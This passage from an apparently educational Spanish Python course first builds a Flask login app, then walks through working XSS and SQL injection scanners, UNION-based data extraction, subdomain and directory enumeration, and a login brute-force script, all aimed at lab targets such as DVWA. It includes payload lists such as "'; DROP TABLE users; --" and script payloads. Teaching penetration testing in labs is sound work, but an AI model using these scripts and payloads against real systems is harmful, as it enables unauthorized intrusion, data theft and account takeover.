cd flask-auth-app
python -m venv venv
source venv/bin/activate  # En Windows: venv\Scripts\activate
```

#### 🔹 Paso 2: Instalar Flask y Werkzeug

```bash
pip install flask werkzeug
```

---

### 🗂️ Estructura del proyecto

```
flask-auth-app/
│
├── app.py
├── templates/
│   ├── index.html
│   ├── login.html
│   ├── register.html
│   └── protected.html
└── users.db  (se crea automáticamente)
```

---

### 🧩 Código completo de la aplicación

#### 📄 `app.py`

```python
from flask import Flask, render_template, request, redirect, session, url_for
from werkzeug.security import generate_password_hash, check_password_hash
import sqlite3

app = Flask(__name__)
app.secret_key = 'supersecretkey'  # Cambia esto en producción

# Inicializar DB
def init_db():
    with sqlite3.connect('users.db') as conn:
        conn.execute('''
            CREATE TABLE IF NOT EXISTS users (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                username TEXT UNIQUE NOT NULL,
                password TEXT NOT NULL
            )
        ''')
init_db()

# Ruta principal
@app.route('/')
def index():
    return render_template('index.html')

# Registro de usuarios
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = generate_password_hash(request.form['password'])

        try:
            with sqlite3.connect('users.db') as conn:
                conn.execute('INSERT INTO users (username, password) VALUES (?, ?)', (username, password))
            return redirect('/login')
        except sqlite3.IntegrityError:
            return "El usuario ya existe"

    return render_template('register.html')

# Login
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password_input = request.form['password']

        with sqlite3.connect('users.db') as conn:
            cur = conn.execute('SELECT * FROM users WHERE username = ?', (username,))
            user = cur.fetchone()

        if user and check_password_hash(user[2], password_input):
            session['user'] = username
            return redirect('/protected')
        else:
            return "Credenciales incorrectas"

    return render_template('login.html')

# Página protegida
@app.route('/protected')
def protected():
    if 'user' in session:
        return render_template('protected.html', user=session['user'])
    else:
        return redirect('/login')

# Logout
@app.route('/logout')
def logout():
    session.pop('user', None)
    return redirect('/')

if __name__ == '__main__':
    app.run(debug=True)
```

---

### 🧾 HTML templates

#### 📄 `templates/index.html`

```html
<h1>Bienvenido</h1>
<a href="/register">Registrarse</a> | <a href="/login">Iniciar sesión</a>
```

---

#### 📄 `templates/register.html`

```html
<h1>Registro</h1>
<form method="post">
  Usuario: <input type="text" name="username" /><br />
  Contraseña: <input type="password" name="password" /><br />
  <input type="submit" value="Registrarse" />
</form>
```

---

#### 📄 `templates/login.html`

```html
<h1>Login</h1>
<form method="post">
  Usuario: <input type="text" name="username" /><br />
  Contraseña: <input type="password" name="password" /><br />
  <input type="submit" value="Iniciar sesión" />
</form>
```

---

#### 📄 `templates/protected.html`

```html
<h1>¡Hola {{ user }}!</h1>
<p>Has iniciado sesión correctamente.</p>
<a href="/logout">Cerrar sesión</a>
```

---

### ▶️ Cómo ejecutarlo

1. Asegúrate de estar en tu entorno virtual:

   ```bash
   source venv/bin/activate
   ```

2. Ejecuta el servidor:

   ```bash
   python app.py
   ```

3. Abre tu navegador en: `http://127.0.0.1:5000`

---

### ✅ ¿Qué lograste?

- Un usuario puede registrarse y su contraseña se almacena en forma segura (hash).
- El usuario puede iniciar sesión y acceder a páginas protegidas.
- Puedes cerrar sesión para eliminar la sesión activa.

---

[🔼](#índice)

---

## **251. Introducción al escaneo y explotación de XSS con Python**

### 🔐 ¿Qué es XSS?

**XSS (Cross-Site Scripting)** es una vulnerabilidad común en aplicaciones web que permite a un atacante **inyectar scripts maliciosos** en páginas vistas por otros usuarios.
El más común es **XSS reflejado**, donde el script malicioso se ejecuta como parte de una URL manipulada.

---

### ⚠️ Tipos comunes de XSS

| Tipo       | Descripción                                                           |
| ---------- | --------------------------------------------------------------------- |
| Reflejado  | El script es parte de la URL.                                         |
| Almacenado | El script se guarda en la base de datos o servidor.                   |
| DOM-based  | El script se ejecuta a nivel del navegador sin pasar por el servidor. |

---

### 🎯 Objetivo del ejemplo

- Simular un escaneo básico de XSS.
- Enviar una **carga XSS** usando Python.
- Comprobar si es vulnerable (si se refleja la carga maliciosa).
- Instalar dependencias necesarias.

---

### ⚙️ Requisitos

1. Python 3
2. Librerías: `requests`, `BeautifulSoup` (para analizar HTML)
3. Un entorno de práctica (usaremos [DVWA](http://www.dvwa.co.uk/) o [bWAPP](http://www.itsecgames.com/)) **o un sitio controlado local**

---

### 🛠️ Instalación

#### Paso 1: Crear el entorno

```bash
mkdir xss-scanner
cd xss-scanner
python -m venv venv
source venv/bin/activate  # En Windows: venv\Scripts\activate
```

#### Paso 2: Instalar librerías

```bash
pip install requests beautifulsoup4
```

---

### 💡 Ejemplo de carga XSS

```html
<script>
  alert("XSS");
</script>
```

---

### 🧠 ¿Qué vamos a hacer?

- Cargar una URL con parámetros
- Inyectar un script (`<script>alert('XSS')</script>`)
- Leer la respuesta HTML
- Verificar si se refleja el payload en el HTML

---

### ✅ Código completo de escaneo básico de XSS

```python
import requests
from bs4 import BeautifulSoup
import urllib.parse

# Lista de payloads XSS comunes
payloads = [
    "<script>alert('XSS')</script>",
    "",
    "'\"><svg/onload=alert('XSS')>",
]

# URL objetivo con un parámetro vulnerable (ejemplo)
# Simula que el parámetro "q" podría ser vulnerable
base_url = "http://localhost/vulnerable_app/search.php?q="

def test_xss(url, payloads):
    for payload in payloads:
        # Codificamos el payload en la URL
        target = url + urllib.parse.quote(payload)
        print(f"Probando: {target}")

        try:
            res = requests.get(target, timeout=5)
            if payload in res.text:
                print("⚠️ Posible vulnerabilidad XSS detectada con payload:")
                print(payload)
            else:
                print("✅ No se reflejó el payload.")
        except requests.RequestException as e:
            print(f"❌ Error al conectar: {e}")

if __name__ == "__main__":
    test_xss(base_url, payloads)
```

---

### 🔬 ¿Qué hace este script?

1. Toma una **URL con parámetros** (por ejemplo, `search.php?q=algo`).
2. Inyecta varios **payloads XSS** uno por uno.
3. Envía una solicitud HTTP GET.
4. Busca si el payload se **refleja** en el contenido HTML.
5. Si se refleja, **alerta que puede haber una vulnerabilidad XSS**.

---

### 🧪 ¿Dónde probarlo?

Puedes usar entornos como:

| Entorno              | Descripción                      |
| -------------------- | -------------------------------- |
| **DVWA**             | Damn Vulnerable Web App          |
| **bWAPP**            | Buggy Web App                    |
| **VulnHub**          | VMs vulnerables para practicar   |
| **OWASP Juice Shop** | App moderna con vulnerabilidades |

---

[🔼](#índice)

---

## **252. Escaneo y explotación de XSS con Python**

### 🧠 ¿Qué es XSS (Cross-Site Scripting)?

**XSS** es una vulnerabilidad que permite a un atacante **inyectar código JavaScript malicioso** en páginas web visitadas por otros usuarios.

#### Tipos más comunes:

| Tipo       | ¿Dónde se ejecuta?                                         | Ejemplo real                  |
| ---------- | ---------------------------------------------------------- | ----------------------------- |
| Reflejado  | Se refleja en la respuesta inmediata del servidor          | `search.php?q=<script>`       |
| Almacenado | Se guarda en el servidor y se muestra a otros usuarios     | Comentarios maliciosos        |
| DOM-Based  | Se ejecuta solo en el navegador, sin pasar por el servidor | Manipulando `window.location` |

---

### 🎯 ¿Qué vamos a construir?

Un script en Python que:

1. **Escanee automáticamente** parámetros en URLs para detectar si son vulnerables a XSS.
2. **Inyecte cargas maliciosas** (payloads) y detecte si se reflejan en la respuesta HTML.
3. **Reporte** las vulnerabilidades encontradas.

---

### 🛠️ Requisitos

#### 🐍 Instalación

```bash
# 1. Crear entorno virtual (opcional)
python -m venv venv
source venv/bin/activate  # En Linux/macOS
venv\Scripts\activate     # En Windows

# 2. Instalar dependencias
pip install requests beautifulsoup4
```

---

### 📄 Archivo objetivo de prueba (en tu entorno local)

Crea este archivo PHP simple (si tienes XAMPP, WAMP o Docker con Apache):

#### `xss-demo.php`

```php
<?php
$q = $_GET['q'] ?? '';
echo "<h1>Buscar resultado:</h1>";
echo "Has buscado: " . $q;
?>
```

Accede a `http://localhost/xss-demo.php?q=algo`.

---

### 🧪 Payloads XSS comunes

```html
<script>
  alert("XSS");
</script>
 "><svg/onload=alert(1)>
```

---

### 🧾 Código Python: `xss_scanner.py`

```python
import requests
from bs4 import BeautifulSoup
import urllib.parse

# Payloads XSS comunes
payloads = [
    "<script>alert('XSS')</script>",
    "",
    "\"><svg/onload=alert(1)>"
]

# URL vulnerable con parámetro
base_url = "http://localhost/xss-demo.php?q="

def test_xss(url, payloads):
    for payload in payloads:
        full_url = url + urllib.parse.quote(payload)
        print(f"\n🔍 Probando: {full_url}")

        try:
            response = requests.get(full_url, timeout=5)
            html = response.text

            if payload in html:
                print("🚨 ¡Vulnerabilidad XSS detectada!")
                print(f"Payload: {payload}")
            else:
                print("✅ No se reflejó el payload.")
        except Exception as e:
            print(f"❌ Error al conectar: {e}")

if __name__ == "__main__":
    test_xss(base_url, payloads)
```

---

### 🚀 ¿Cómo se ejecuta?

```bash
python xss_scanner.py
```

Verás algo como:

```
🔍 Probando: http://localhost/xss-demo.php?q=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
🚨 ¡Vulnerabilidad XSS detectada!
Payload: <script>alert('XSS')</script>
```

---

### 🛡️ ¿Cómo sabe el script si hay XSS?

✔️ **Envía el payload como valor del parámetro**

✔️ **Revisa si el mismo payload aparece en la respuesta HTML**

✔️ Si el código aparece tal cual, es probable que no haya sanitización de entrada → posible XSS reflejado.

---

### 🧰 Opcional: Automatizar detección en varias URLs

Puedes guardar URLs en un `.txt` y modificar el script para leer cada una, y probar todos los parámetros detectados automáticamente con `BeautifulSoup` o `re`.

---

### ⚠️ Ética y legalidad

**Este script debe usarse solo en entornos de práctica o con autorización. Nunca escanees sitios reales sin permiso.**

---

### 📦 Entornos seguros de práctica recomendados

- [DVWA](http://www.dvwa.co.uk/)
- [bWAPP](http://www.itsecgames.com/)
- [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)
- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/)

---

### 📌 Resumen

| Elemento        | Descripción                                    |
| --------------- | ---------------------------------------------- |
| Herramienta     | Python script con `requests` y `bs4`           |
| Vulnerabilidad  | XSS reflejado                                  |
| Tipo de escaneo | Automático, con payloads                       |
| Entorno seguro  | PHP local o apps como DVWA                     |
| Objetivo        | Encontrar parámetros vulnerables y explotarlos |

---

[🔼](#índice)

---

## **253. Implementa un escáner de SQL Injection con Python**

### 🧠 ¿Qué es SQL Injection (SQLi)?

Es una vulnerabilidad que permite a un atacante **inyectar código SQL malicioso** en campos de entrada (como formularios o parámetros en URLs) para manipular una base de datos.

#### Ejemplo:

```url
http://localhost/product?id=1
```

Si alguien escribe esto:

```url
http://localhost/product?id=1' OR '1'='1
```

El backend podría ejecutar:

```sql
SELECT * FROM productos WHERE id='1' OR '1'='1'
```

Y devolver **todos los productos** — ¡un gran problema de seguridad!

---

### 🎯 ¿Qué vamos a hacer?

Crear un script que:

1. Toma una URL con parámetros.
2. Inyecta _payloads_ SQL típicos.
3. Detecta si hay errores de base de datos en la respuesta.

---

### 🛠️ Requisitos

#### 🔧 Instalación

```bash
# 1. Crear entorno virtual (opcional)
python -m venv venv
source venv/bin/activate  # En Linux/macOS
venv\Scripts\activate     # En Windows

# 2. Instalar dependencias
pip install requests
```

---

### 📦 Aplicación vulnerable para pruebas (DVWA)

Instala DVWA (Damn Vulnerable Web Application):

- Sitio: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
- Requiere Apache + PHP + MySQL (XAMPP, WAMP, o Docker)

Accede a: `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`

---

### 💉 Payloads comunes de SQLi

```python
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "'; DROP TABLE users; --",
    "\" OR \"1\"=\"1",
    "' OR sleep(5)--"
]
```

---

### 🧾 Script completo: `sqli_scanner.py`

```python
import requests
import urllib.parse

# Payloads típicos para probar SQL Injection
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "' OR sleep(5)--",
    "\" OR \"1\"=\"1",
    "' AND 1=2 UNION SELECT NULL, version()--"
]

# Función que prueba SQLi en una URL
def test_sql_injection(url):
    vulnerable = False
    print(f"🔍 Escaneando: {url}")

    for payload in payloads:
        # Separar base y parámetros
        parsed = urllib.parse.urlparse(url)
        params = urllib.parse.parse_qs(parsed.query)

        # Inyectar el payload en cada parámetro
        for param in params:
            original = params[param][0]
            params[param][0] = original + payload

            # Reconstruir la URL con el payload
            new_query = urllib.parse.urlencode(params, doseq=True)
            new_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{new_query}"

            print(f"➡️ Probando: {new_url}")
            try:
                res = requests.get(new_url)
                if "You have an error in your SQL syntax" in res.text or "sql" in res.text.lower():
                    print(f"🚨 ¡Vulnerabilidad detectada con payload: {payload}")
                    vulnerable = True
            except Exception as e:
                print(f"❌ Error: {e}")
            finally:
                # Restaurar el valor original del parámetro
                params[param][0] = original

    if not vulnerable:
        print("✅ No se detectaron vulnerabilidades SQLi.")

# URL de prueba
if __name__ == "__main__":
    url = "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
    test_sql_injection(url)
```

---

### 📌 ¿Cómo se usa?

1. Asegúrate de que DVWA esté corriendo.
2. Configura el nivel de seguridad en "Low".
3. Ejecuta el script:

```bash
python sqli_scanner.py
```

Verás salidas como:

```
➡️ Probando: http://localhost/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit
🚨 ¡Vulnerabilidad detectada con payload: ' OR '1'='1
```

---

### 🛡️ ¿Cómo detecta si hay una vulnerabilidad?

✅ Busca **mensajes de error** en la respuesta HTML como:

- `"You have an error in your SQL syntax"`
- `"Warning: mysql_"`

📌 También puedes hacer que mida el tiempo de respuesta para detectar ataques de _time-based blind SQLi_.

---

### ⚠️ Ética y legalidad

**Este tipo de herramientas deben usarse solo en entornos de prueba** o con **permiso explícito** del dueño del sitio web.

---

### 🧪 ¿Dónde practicar legalmente?

- [DVWA](https://github.com/digininja/DVWA)
- [bWAPP](http://www.itsecgames.com/)
- [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)
- [TryHackMe](https://tryhackme.com/)
- [HackTheBox](https://www.hackthebox.com/)

---

[🔼](#índice)

---

## **254. Escaneo y explotación de SQL Injection con Python**

### 🧠 ¿Qué es SQL Injection (SQLi)?

SQL Injection es una vulnerabilidad que ocurre cuando una aplicación web permite que un usuario inyecte código SQL directamente en las consultas a la base de datos, sin validarlo. Esto permite desde leer datos hasta borrar tablas completas si no se filtra correctamente.

---

### 🎯 Objetivo

- **Escanear una URL o formulario vulnerable.**
- **Inyectar código SQL malicioso.**
- **Extraer datos de la base de datos si es vulnerable.**

---

### 🛠️ ¿Qué vamos a usar?

#### 1. Python

#### 2. Módulos:

- `requests` para enviar peticiones HTTP.
- `urllib.parse` para manipular URLs.
- `re` para expresiones regulares.
- `colorama` (opcional) para imprimir con colores.

#### 3. Aplicación vulnerable: **DVWA** (Damn Vulnerable Web Application)

---

### 📦 Instalación de DVWA (opcional pero recomendable para pruebas)

#### 🔴 Opción 1: Usar XAMPP (Windows/Linux/macOS)

1. Instala [XAMPP](https://www.apachefriends.org/index.html)
2. Clona el repositorio de DVWA en la carpeta `htdocs`:

```bash
git clone https://github.com/digininja/DVWA.git
```

3. Inicia Apache y MySQL desde el panel de XAMPP.

4. Accede en tu navegador a:
   `http://localhost/DVWA/setup.php`

5. Haz clic en “Create/Reset Database”.

6. En la configuración de DVWA (`config/config.inc.php`) pon:

```php
$_DVWA[ 'security_level' ] = 'low';
```

---

### 🐍 Instalar dependencias de Python

```bash
pip install requests colorama
```

---

### 🔍 Fase 1: Escaneo SQL Injection

Vamos a enviar **payloads comunes de inyección** a una URL y detectar si hay errores en la respuesta.

#### 🧪 Payloads comunes:

```python
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "'; DROP TABLE users; --",
    "' OR sleep(3)--",
    "\" OR \"1\"=\"1"
]
```

---

### 🧾 Código completo: `sql_injector.py`

```python
import requests
import urllib.parse
import re
from colorama import Fore, Style

# Payloads SQL típicos
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "\" OR \"1\"=\"1",
    "' OR sleep(3)--",
    "' AND 1=2 UNION SELECT NULL, version()--"
]

# Palabras clave que indican error SQL
sql_errors = [
    "You have an error in your SQL syntax",
    "Warning: mysql_",
    "Unclosed quotation mark",
    "quoted string not properly terminated",
    "SQLSTATE"
]

def scan_sql_injection(url):
    print(Fore.YELLOW + f"🔍 Analizando URL: {url}" + Style.RESET_ALL)
    vulnerable = False

    parsed = urllib.parse.urlparse(url)
    params = urllib.parse.parse_qs(parsed.query)

    for param in params:
        for payload in payloads:
            test_params = params.copy()
            test_params[param] = [params[param][0] + payload]
            new_query = urllib.parse.urlencode(test_params, doseq=True)
            test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{new_query}"

            try:
                res = requests.get(test_url, timeout=5)
                for error in sql_errors:
                    if error.lower() in res.text.lower():
                        print(Fore.RED + f"🚨 Vulnerable con payload: {payload}" + Style.RESET_ALL)
                        print(f"➡️ {test_url}")
                        vulnerable = True
                        break
            except requests.exceptions.RequestException as e:
                print(Fore.RED + f"❌ Error al probar: {test_url}\n{e}" + Style.RESET_ALL)

    if not vulnerable:
        print(Fore.GREEN + "✅ No se detectó inyección SQL con los payloads usados." + Style.RESET_ALL)

# 👉 Inserta aquí la URL vulnerable
if __name__ == "__main__":
    url = "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit"
    scan_sql_injection(url)
```

---

### 🏁 ¿Cómo ejecutar?

```bash
python sql_injector.py
```

🔎 Verás si alguno de los payloads provoca un error de SQL, lo cual **confirma una vulnerabilidad**.

---

### 💣 Fase 2: Explotación de la vulnerabilidad (con `UNION SELECT`)

Una vez descubierta una vulnerabilidad, puedes intentar extraer información como:

- Versión de la base de datos: `version()`
- Usuario actual: `user()`
- Base de datos actual: `database()`

#### 🔥 Ejemplo de payload con extracción:

```sql
?id=1' UNION SELECT NULL, version()--
```

---

### 🧠 ¿Cómo automatizar eso en el script?

Puedes modificar el payload para buscar información:

```python
' AND 1=2 UNION SELECT NULL, user()--
' AND 1=2 UNION SELECT NULL, database()--
```

Y ver si en la respuesta aparece algo como:

```
root@localhost
```

---

### 🛡️ Recomendaciones

- Usa esto **solo en entornos de pruebas** o con **permiso legal**.
- Este script puede evolucionar en una herramienta completa que:

  - Use diccionarios de payloads.
  - Pruebe SQLi booleano y ciego.
  - Automatice fuzzing con hilos.
  - Exporta resultados a CSV o HTML.

---

### 🧪 Plataformas donde practicar

| Plataforma                                                             | Tipo de práctica         |
| ---------------------------------------------------------------------- | ------------------------ |
| [DVWA](https://github.com/digininja/DVWA)                              | Local, vulnerable        |
| [bWAPP](http://www.itsecgames.com/)                                    | Local, vulnerable        |
| [HackTheBox](https://www.hackthebox.com/)                              | CTF real, legal          |
| [TryHackMe](https://tryhackme.com/)                                    | Guías paso a paso        |
| [PortSwigger Labs](https://portswigger.net/web-security/sql-injection) | Laboratorios controlados |

---

[🔼](#índice)

---

## **255. Descubrimiento de subdominios con Python**



### 📘 ¿Qué es el descubrimiento de subdominios?

Los **subdominios** son partes de un dominio principal, por ejemplo:

- `mail.ejemplo.com`
- `blog.ejemplo.com`
- `dev.ejemplo.com`

Descubrir subdominios permite **identificar posibles puertas de entrada** o servicios mal configurados. Esta técnica es común en **pentesting**, **reconocimiento** y **bug bounty**.

---

### 🎯 ¿Qué aprenderás aquí?

- Qué es y cómo funciona el descubrimiento de subdominios.
- Cómo instalar las herramientas necesarias.
- Cómo hacer un script en Python para escanear subdominios.
- Cómo usar una **wordlist** para buscar subdominios.

---

### 🧰 Requisitos

#### ✅ Necesitas tener:

- Python 3 instalado
- Acceso a internet
- Un archivo con posibles subdominios (una wordlist)
- Un dominio para probar (por ejemplo: `example.com` o uno propio)

---

### 🛠️ Instalación

#### 1. Crea un entorno de trabajo:

```bash
mkdir subdomain_scanner
cd subdomain_scanner
```

#### 2. Crea y activa un entorno virtual (opcional pero recomendado):

```bash
python -m venv env
source env/bin/activate  # En Linux/macOS
env\Scripts\activate     # En Windows
```

#### 3. Instala dependencias necesarias:

```bash
pip install requests
```

---

### 📜 Crea un archivo de wordlist (subdominios.txt)

Este archivo tendrá subdominios comunes. Ejemplo:

```txt
www
mail
ftp
blog
dev
test
admin
portal
vpn
```

Guárdalo como `subdominios.txt` en tu carpeta.

---

### 🧾 Script completo en Python

Guarda este código como `subdomain_finder.py`:

```python
import requests

def buscar_subdominios(dominio, archivo_wordlist):
    print(f"🔍 Buscando subdominios para: {dominio}\n")

    with open(archivo_wordlist, "r") as file:
        subdominios = file.read().splitlines()

    encontrados = []

    for sub in subdominios:
        url = f"http://{sub}.{dominio}"
        try:
            response = requests.get(url, timeout=2)
            print(f"✅ Encontrado: {url} (Status: {response.status_code})")
            encontrados.append(url)
        except requests.ConnectionError:
            pass  # No mostrar si no existe
        except Exception as e:
            print(f"⚠️ Error con {url}: {e}")

    if not encontrados:
        print("❌ No se encontraron subdominios disponibles.")
    else:
        print("\n✅ Subdominios encontrados:")
        for sub in encontrados:
            print(" -", sub)

# 👇 Personaliza aquí tu dominio
if __name__ == "__main__":
    dominio = "example.com"  # Cambia esto por tu dominio real
    wordlist = "subdominios.txt"
    buscar_subdominios(dominio, wordlist)
```

---

### ▶️ ¿Cómo ejecutarlo?

```bash
python subdomain_finder.py
```

🔍 Verás una salida como esta (si el dominio tiene esos subdominios disponibles):

```
✅ Encontrado: http://www.example.com (Status: 200)
✅ Encontrado: http://blog.example.com (Status: 200)

✅ Subdominios encontrados:
 - http://www.example.com
 - http://blog.example.com
```

---

### 🧠 ¿Qué está haciendo el script?

1. Lee posibles subdominios desde un archivo.
2. Forma URLs como `http://subdominio.dominio.com`.
3. Intenta hacer una solicitud HTTP.
4. Si el servidor responde, el subdominio **existe y está en línea**.

---

### 💡 Mejores wordlists públicas

Puedes usar una lista más grande como las de [SecLists](https://github.com/danielmiessler/SecLists):

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

Y usar por ejemplo:

```
SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

### ⚠️ Advertencias éticas

- **No ataques dominios sin permiso.** Solo haz esto en tu propio dominio o entornos de prueba.
- Este script es solo para fines educativos o pruebas de seguridad autorizadas.

---

[🔼](#índice)

---

## **256. Descubrimiento de contenido web con Python**

### 📘 ¿Qué es el descubrimiento de contenido web?

El **descubrimiento de contenido web** es una técnica de **reconocimiento pasivo/activo** usada para **detectar archivos o directorios ocultos** en un sitio web.
Esto se hace probando rutas comunes como:

- `/admin`
- `/login`
- `/uploads`
- `/config.php`
- `/backup/`

Esto puede revelar **vulnerabilidades o información sensible**, especialmente si el sitio deja expuestos recursos sin protección.

---

### 🧠 ¿Para qué sirve?

- Verificar archivos olvidados en producción
- Encontrar paneles de administración
- Enumerar endpoints para pentesting
- Auditar configuraciones de un sitio

---

### 🧰 Requisitos previos

Necesitarás:

- Python 3 instalado
- Conexión a internet
- Un archivo `.txt` con rutas/directorios comunes
- El sitio objetivo (¡usa un entorno de prueba o autorizado!)

---

### 🛠️ Instalación paso a paso

#### 1. Crear un entorno de trabajo

```bash
mkdir contenido_web_scanner
cd contenido_web_scanner
```

#### 2. Crear un entorno virtual (opcional)

```bash
python -m venv env
source env/bin/activate    # Linux/macOS
env\Scripts\activate       # Windows
```

#### 3. Instalar dependencia necesaria

```bash
pip install requests
```

---

### 📜 Crear archivo de diccionario (wordlist)

Crea un archivo `rutas.txt` con rutas comunes:

```txt
admin
login
config
backup
uploads
dashboard
api
robots.txt
.git
.env
```

---

### 💻 Script completo en Python

Guarda esto como `descubrimiento_contenido.py`:

```python
import requests

def escanear_contenido(base_url, wordlist):
    print(f"🔍 Escaneando rutas en: {base_url}\n")

    with open(wordlist, "r") as f:
        rutas = f.read().splitlines()

    encontradas = []

    for ruta in rutas:
        url = f"{base_url.rstrip('/')}/{ruta}"
        try:
            respuesta = requests.get(url, timeout=3)
            if respuesta.status_code not in [404, 403]:
                print(f"✅ Encontrado: {url} (Status: {respuesta.status_code})")
                encontradas.append(url)
        except requests.RequestException as e:
            print(f"⚠️ Error al conectar con {url}: {e}")

    if not encontradas:
        print("❌ No se encontró contenido accesible.")
    else:
        print("\n📄 Rutas encontradas:")
        for u in encontradas:
            print(" -", u)

# 👇 Cambia esto por el dominio real a escanear
if __name__ == "__main__":
    url_objetivo = "http://testphp.vulnweb.com"  # Sitio de prueba
    archivo_rutas = "rutas.txt"
    escanear_contenido(url_objetivo, archivo_rutas)
```

---

### ▶️ ¿Cómo ejecutarlo?

```bash
python descubrimiento_contenido.py
```

Verás una salida similar a:

```
🔍 Escaneando rutas en: http://testphp.vulnweb.com

✅ Encontrado: http://testphp.vulnweb.com/admin (Status: 200)
✅ Encontrado: http://testphp.vulnweb.com/login (Status: 200)

📄 Rutas encontradas:
 - http://testphp.vulnweb.com/admin
 - http://testphp.vulnweb.com/login
```

---

### 💡 ¿Cómo funciona este script?

1. Toma una URL base (`http://testphp.vulnweb.com`).
2. Lee rutas desde un archivo (como `admin`, `login`, `config`).
3. Intenta hacer una solicitud HTTP a cada ruta.
4. Si no recibe un `404`, lo marca como **posible ruta válida**.

---

### 🧠 Mejora del script (ideas):

- Agregar soporte a HTTPS
- Usar multihilos para acelerar (con `concurrent.futures`)
- Exportar resultados a `.txt` o `.csv`
- Integrar con `streamlit` para interfaz web
- Agregar detección de archivos PHP/JS/etc.

---

### ⚠️ Importante

> 🛡️ **Este script es solo para fines educativos o pruebas en entornos propios/autorizados.**
>
> Nunca lo uses sin permiso en sitios reales.

---

### ✅ Conclusión

Has aprendido a:

- Instalar Python y requests
- Crear una wordlist de rutas
- Detectar rutas ocultas en sitios web
- Automatizarlo con un script en Python

---

[🔼](#índice)

---

## **257. Fuerza Bruta a paneles de autenticación web con Python**

### 🧠 ¿Qué es un ataque de fuerza bruta?

Un **ataque de fuerza bruta** consiste en **probar muchas combinaciones** de nombre de usuario y contraseña **hasta encontrar la correcta**.

👉 En el caso de aplicaciones web, esto implica enviar repetidas peticiones HTTP al formulario de login hasta obtener acceso.

---

### ⚠️ Importante

> ✅ **Este contenido es exclusivamente educativo.**
>
> ❌ **Nunca lo uses en sistemas que no te pertenecen o sin autorización.**

Para pruebas legales puedes usar entornos como:

- [`http://testphp.vulnweb.com`](http://testphp.vulnweb.com)
- Aplicaciones locales como [DVWA](https://github.com/digininja/DVWA) (Damn Vulnerable Web App)

---

### 📋 Requisitos

- Python 3
- Librería `requests`
- Wordlists de usuarios/contraseñas

---

### 🧰 Instalación

```bash
mkdir fuerza_bruta_login
cd fuerza_bruta_login
python -m venv env
source env/bin/activate       # En Linux/macOS
env\Scripts\activate          # En Windows

pip install requests
```

---

### 📁 Archivos necesarios

#### 1. `usuarios.txt`

```txt
admin
user
test
juan
```

#### 2. `passwords.txt`

```txt
123456
admin123
password
qwerty
test123
```

---

### 📜 Script completo: `fuerza_bruta_login.py`

```python
import requests

def fuerza_bruta_login(url_login, archivo_usuarios, archivo_passwords):
    with open(archivo_usuarios, 'r') as usuarios:
        usuarios = [u.strip() for u in usuarios.readlines()]

    with open(archivo_passwords, 'r') as passwords:
        passwords = [p.strip() for p in passwords.readlines()]

    for usuario in usuarios:
        for password in passwords:
            data = {
                "username": usuario,
                "password": password
            }
            print(f"🔄 Probando {usuario}:{password}")
            try:
                respuesta = requests.post(url_login, data=data)
                if "Login failed" not in respuesta.text and respuesta.status_code == 200:
                    print(f"✅ Credenciales válidas encontradas: {usuario}:{password}")
                    return
            except requests.RequestException as e:
                print(f"⚠️ Error: {e}")

    print("❌ No se encontraron credenciales válidas.")

# URL de prueba (usa tu entorno local o DVWA)
if __name__ == "__main__":
    url_objetivo = "http://localhost/dvwa/login.php"  # Cambiar por tu entorno
    fuerza_bruta_login(url_objetivo, "usuarios.txt", "passwords.txt")
```

---

### ▶️ Cómo ejecutarlo

```bash
python fuerza_bruta_login.py
```

#### Ejemplo de salida:

```
🔄 Probando admin:123456
🔄 Probando admin:admin123
✅ Credenciales válidas encontradas: admin:admin123
```

---

### 📦 ¿Cómo saber si funcionó?

Debes identificar algo **en la respuesta HTTP** que indique un inicio de sesión exitoso:

- Texto como "Welcome" o "Dashboard"
- Cambio de URL
- Cookie de sesión
- Redirección a otra página

El script se puede adaptar así:

```python
if "Welcome" in respuesta.text or respuesta.url != url_login:
```

---

### 💡 Mejora: Añadir cabeceras y manejar cookies

Algunos sitios requieren:

```python
headers = {
    "User-Agent": "Mozilla/5.0"
}
session = requests.Session()
session.post(url_login, data=data, headers=headers)
```

---

### ✅ Conclusión

Con este proyecto aprendiste:

- Qué es un ataque de fuerza bruta a formularios web
- Cómo automatizarlo con Python
- Cómo usar `requests` para enviar credenciales

---

[🔼](#índice)

---

## **258. Extendiendo Burp Suite con Python**

### 🧠 ¿Qué es extender Burp Suite con Python?

Burp Suite es una herramienta de pruebas de seguridad web. Aunque sus extensiones se escriben **normalmente en Java**, se puede **extender con Python** usando **Jython** (una implementación de Python en Java).

Con esto puedes crear **extensiones personalizadas** para automatizar tareas dentro de Burp como:

- Analizar solicitudes/respuestas HTTP
- Filtrar tráfico
- Detectar vulnerabilidades específicas
- Automatizar escaneos o recolección de información

---

#### 🔧 Requisitos

Antes de empezar, necesitas:

1. **Burp Suite Community o Pro**
2. **Java instalado**
3. **Python 2.7 o 3.x**
4. **Jython** (para que Burp interprete Python)
5. **Un editor de texto o IDE (VSCode, PyCharm, etc.)**

---

### 🛠️ Instalación paso a paso

#### 1. Instalar Burp Suite

Puedes descargarlo desde:
🔗 [https://portswigger.net/burp](https://portswigger.net/burp)

Instálalo como cualquier app.

---

#### 2. Descargar Jython

🔗 [https://www.jython.org/download](https://www.jython.org/download)

Descarga el archivo `.jar`, por ejemplo:

```
jython-standalone-2.7.3.jar
```

